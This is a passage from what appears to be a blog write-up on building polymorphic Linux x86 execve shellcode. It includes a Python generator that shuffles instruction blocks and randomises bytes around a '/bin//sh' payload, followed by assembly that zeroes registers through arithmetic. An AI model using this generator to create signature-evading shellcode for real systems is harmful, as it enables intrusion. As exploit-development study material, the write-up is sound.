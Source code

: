 
    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = format(byte_len(setup_blk) + 2, '02x')
    call_adj = format((255 - byte_len(setup_blk) - 6), 'x')

    tmp= "".join(init_blk)+"\\xeb\\x"+str(jmp_adj)+"".join(setup_blk)+"\\xcd\\x80\\xe8\\x"+str(call_adj)+"\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

    par = randint(1,255);
    shellcode=tmp.replace("$$", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("??", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("%%", str(format(par, 'x')));
    return shellcode

{%endhighlight%}

No black magic here. It's the same approach used with NOPs but with some more
instructions having no effect on the program logical flow.

{% asciicast 198400 %}

### Do some math

Last strategy I would use to create polymorphic version of my first execve
variant is to do some math to fill registers with the desired values.

In this payload, we want to achieve the following register status:

|---|-------|
|register|value|
| EAX | 0xb |
| ECX | 0x0 |
| EDX | 0x0 |
|---|-------|

EBX is filled up with a pointer, so I won't use math for it.

As simple PoC for my polymorphic generator python script, I will use SUB
instruction for EAX electing a random number and subtracting the correspondant
to reach 0xb.

To init ECX and EDX to 0, I'll use the following instructions:

{%highlight asm%}
	sub 	ecx, ecx
	sub 	edx, edx
	andn	ecx, ecx, ecx
	andn	edx, edx, edx

	push 0x3
	pop ecx
	sub cl, 0x3

	push 0x7F
	pop edx
	sub dl, 0x7F
{%endhighlight%}

